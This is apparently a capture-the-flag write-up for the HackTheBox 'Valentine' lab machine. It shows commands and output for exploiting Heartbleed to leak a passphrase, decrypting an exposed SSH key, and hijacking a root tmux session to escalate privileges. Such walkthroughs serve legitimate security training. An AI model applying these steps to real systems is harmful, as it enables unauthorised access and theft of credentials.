

# Valentine: 10.10.10.79

## Hints

- Try to find some "hidden" directories to find a key to the castle
- The website image gives a hint to the exploit needed to get a password
- Privesc to root is all about an application similar to `screen`

## nmap

Starting with the usual `nmap` scan. Interesting ports:

```none
22/tcp  open  ssh      OpenSSH 5.9p1 Debian 5ubuntu1.10 (Ubuntu Linux; protocol 2.0)
80/tcp  open  http     Apache httpd 2.2.22 ((Ubuntu))
443/tcp open  ssl/http Apache httpd 2.2.22 ((Ubuntu))
```

Looks like an Ubuntu Precise (12.04) system on the target. This is a pretty old Ubuntu version that was end of life in 2017, even though it was an LTS release. Some of the interesting ports are SSH on 22, and an Apache web server on ports 80 and 443.

## 80: Recon

The `nmap` output reported that the SSL cert had the common name of `valentine.htb`, so should add this to my `/etc/hosts` file. Visiting the website, all we see is one image.

```none
<center></center>
```


I did a reverse image search on Google and didn't get any direct results. But I already knew this box was a Heartbleed theme based on the red heart in the image. [The Heartbleed Bug](https://heartbleed.com/) was pretty interesting. Instead of me also talking about it, read the provided link or any of the other hundreds of articles out there.

To check if the target is vulnerable to Heartbleed, we can run a `nmap` script.

```none
nmap -d --script ssl-heartbleed --script-args vulns.showall -sV -p 443 10.10.10.79
```

And the results show we have a vulnerable system.

```none
PORT    STATE SERVICE  REASON  VERSION
443/tcp open  ssl/http syn-ack Apache httpd 2.2.22 ((Ubuntu))
|_http-server-header: Apache/2.2.22 (Ubuntu)
| ssl-heartbleed: 
|   VULNERABLE:
|   The Heartbleed Bug is a serious vulnerability in the popular OpenSSL cryptographic software library. It allows for stealing information intended to be protected by SSL/TLS encryption.
|     State: VULNERABLE
|     Risk factor: High
|       OpenSSL versions 1.0.1 and 1.0.2-beta releases (including 1.0.1f and 1.0.2-beta1) of OpenSSL are affected by the Heartbleed bug. The bug allows for reading memory of systems protected by the vulnerable OpenSSL versions and could allow for disclosure of otherwise encrypted confidential information as well as the encryption keys themselves.
|           
|     References:
|       http://www.openssl.org/news/secadv_20140407.txt 
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-0160
|_      http://cvedetails.com/cve/2014-0160/
```

## Running Heartbleed

From here we can attempt to exploit the Heartbleed vulnerability. To find a suitable exploit I used `searchsploit heartbleed` and selected the exploit that had a Python script. Then run the script with the IP address as the only argument.

```none
└─$ python 32764.py 10.10.10.79
Trying SSL 3.0...
Connecting...
Sending Client Hello...
Waiting for Server Hello...
 ... received message: type = 22, ver = 0300, length = 94
 ... received message: type = 22, ver = 0300, length = 885
 ... received message: type = 22, ver = 0300, length = 331
 ... received message: type = 22, ver = 0300, length = 4
Sending heartbeat request...
 ... received message: type = 24, ver = 0300, length = 16384
Received heartbeat response:
  0000: 02 40 00 D8 03 00 53 43 5B 90 9D 9B 72 0B BC 0C  .@....SC[...r...
  0010: BC 2B 92 A8 48 97 CF BD 39 04 CC 16 0A 85 03 90  .+..H...9.......
  0020: 9F 77 04 33 D4 DE 00 00 66 C0 14 C0 0A C0 22 C0  .w.3....f.....".
  0030: 21 00 39 00 38 00 88 00 87 C0 0F C0 05 00 35 00  !.9.8.........5.
  0040: 84 C0 12 C0 08 C0 1C C0 1B 00 16 00 13 C0 0D C0  ................
  0050: 03 00 0A C0 13 C0 09 C0 1F C0 1E 00 33 00 32 00  ............3.2.
  0060: 9A 00 99 00 45 00 44 C0 0E C0 04 00 2F 00 96 00  ....E.D...../...
  0070: 41 C0 11 C0 07 C0 0C C0 02 00 05 00 04 00 15 00  A...............
  0080: 12 00 09 00 14 00 11 00 08 00 06 00 03 00 FF 01  ................
  0090: 00 00 49 00 0B 00 04 03 00 01 02 00 0A 00 34 00  ..I...........4.
  00a0: 32 00 0E 00 0D 00 19 00 0B 00 0C 00 18 00 09 00  2...............
  00b0: 0A 00 16 00 17 00 08 00 06 00 07 00 14 00 15 00  ................
  00c0: 04 00 05 00 12 00 13 00 01 00 02 00 03 00 0F 00  ................
  00d0: 10 00 11 00 23 00 00 00 0F 00 01 01 30 2E 30 2E  ....#.......0.0.
  00e0: 31 2F 64 65 63 6F 64 65 2E 70 68 70 0D 0A 43 6F  1/decode.php..Co
  00f0: 6E 74 65 6E 74 2D 54 79 70 65 3A 20 61 70 70 6C  ntent-Type: appl
  0100: 69 63 61 74 69 6F 6E 2F 78 2D 77 77 77 2D 66 6F  ication/x-www-fo
  0110: 72 6D 2D 75 72 6C 65 6E 63 6F 64 65 64 0D 0A 43  rm-urlencoded..C
  0120: 6F 6E 74 65 6E 74 2D 4C 65 6E 67 74 68 3A 20 34  ontent-Length: 4
  0130: 32 0D 0A 0D 0A 24 74 65 78 74 3D 61 47 56 68 63  2....$text=aGVhc
  0140: 6E 52 69 62 47 56 6C 5A 47 4A 6C 62 47 6C 6C 64  nRibGVlZGJlbGlld
  0150: 6D 56 30 61 47 56 6F 65 58 42 6C 43 67 3D 3D DA  mV0aGVoeXBlCg==.
  0160: 34 03 E0 93 73 68 23 4F 8A 33 10 FD BE A4 8A 35  4...sh#O.3.....5
```

I only ran the script once and seemed to get the information needed. There is some memory leaked to us that shows the `decode.php` filename, and what looks like an HTTP message from the server. There is an interesting `$text` variable with a base64 string.

```none
$text=aGVhcnRibGVlZGJlbGlldmV0aGVoeXBlCg==
```

Now that we know PHP is used on the system, I started a `gobuster` scan to run in the background.

```none
gobuster dir -t 20 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u 10.10.10.79 -o gobuster_80_root_medium.log -x php
```

Looking at the `decode.php` page, we are presented with an online base64 decoder and encoder (`encode.php`) application. This seems to match the base64 encoded string we got from the Heartbleed exploit.


We could pop in our base64 encoded string (`aGVhcnRibGVlZGJlbGlldmV0aGVoeXBlCg==`) to this application, or just let bash do the hard lifting for us.

```none
echo -n "aGVhcnRibGVlZGJlbGlldmV0aGVoeXBlCg==" | base64 -d
```

The base64 encoded string is decoded as:

```none
heartbleedbelievethehype
```

## Finding `dev`

The `gobuster` scan finished and the results found the `dev` folder. Looking at the folder, there is an open directory listing with a couple of interesting files.


Starting with the `notes.txt` file, there are some interesting notes from the developer - who needs more coffee and gives us a few hints.



This was a little rabbit hole - and they got me for a little. I tried poking at the `encode.php` and `decode.php` for a while based on the notes which indicated that it might be vulnerable. I was looking for command execution... but quickly gave up. It was hard to stay focused on trying to get command execution when I had seen the `hype_key` file sitting in the `dev` folder. I fetched the `hype_key` file and saved it on my system. Having a look at the file contents, it looks like hexadecimal (A-F and 0-9 characters). I converted to file from hex to ASCII using the `xxd` tool.

```none
cat hype_key | xxd -r -p > hype_key_enc
```

I found this part pretty funny. I tried to crack the encrypted SSH key using rockyou... when I had the password already from the base64 string! I soon realized this and logged into the `hype` account using SSH. I guessed the user name was `hype` as the SSH key was called `hype_key` - so that made sense.

```none
└─$ ssh hype@10.10.10.79 -i hype_key_enc 
Enter passphrase for key 'hype_key_enc': 
Welcome to Ubuntu 12.04 LTS (GNU/Linux 3.2.0-23-generic x86_64)

 * Documentation:  https://help.ubuntu.com/

New release '14.04.5 LTS' available.
Run 'do-release-upgrade' to upgrade to it.

Last login: Fri Feb 16 14:50:29 2018 from 10.10.14.3
hype@Valentine:~$ id
uid=1000(hype) gid=1000(hype) groups=1000(hype),24(cdrom),30(dip),46(plugdev),124(sambashare)
hype@Valentine:~$ wc -c Desktop/user.txt 
33 Desktop/user.txt
```

Success! Access as the `hype` user and the user flag!

## Privesc: `hype` to `root`

The next step is to privesc to `root`, as that is is the only other user on the system with a shell. Started by running linpeas and having a look at the results. The system is very old, running version 3.2.0 of the Linux kernel. So it is most likely got some suitable kernel exploits.

```none
OS: Linux version 3.2.0-23-generic (buildd@crested) (gcc version 4.6.3 (Ubuntu/Linaro 4.6.3-1ubuntu4) ) #36-Ubuntu SMP Tue Apr 10 20:39:51 UTC 2012
```

Looking through more of the linpeas output, and we see a couple of results about `tmux` which is running as `root` and had a session started.

```none
root       1020  0.0  0.1  26416  1680 ?        Ss   Sep15   0:16 /usr/bin/tmux -S /.devs/dev_sess

...snip...

╔══════════╣ Searching tmux sessions
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#open-shell-sessions
root       1020  0.0  0.1  26416  1680 ?        Ss   Sep15   0:16 /usr/bin/tmux -S /.devs/dev_sess
```

Based on the advice given from linpeas, had a look at [tmux sessions hijacking on HackTricks](https://book.hacktricks.xyz/linux-unix/privilege-escalation#tmux-sessions-hijacking). I have not used `tmux` much - but I know I should switch to it one day. Anyway, looks like `tmux` has an open session which we could attach to. Using the advice given in HackTricks, this is relatively straightforward.

```none
tmux -S /.devs/dev_sess
```

And we get loaded into a `tmux` session as the `root` user and can get the flag!

```none
root@Valentine:/var/www# id
uid=0(root) gid=0(root) groups=0(root)
root@Valentine:/var/www# wc -c /root/root.txt
33 /root/root.txt
```

Done!

## Lessons Learned

- Learn and start using `tmux` - it is about time!
- Didn't refactor the Heartbleed script to Python 3 which saved lots of time on the box, and found a Python 3 version on GitHub.

## Useful Resources

- [HackTheBox - Valentine by ippsec](https://www.youtube.com/watch?v=XYXNvemgJUo)
- [HTB: Valentine by 0xdf](https://0xdf.gitlab.io/2018/07/28/htb-valentine.html)
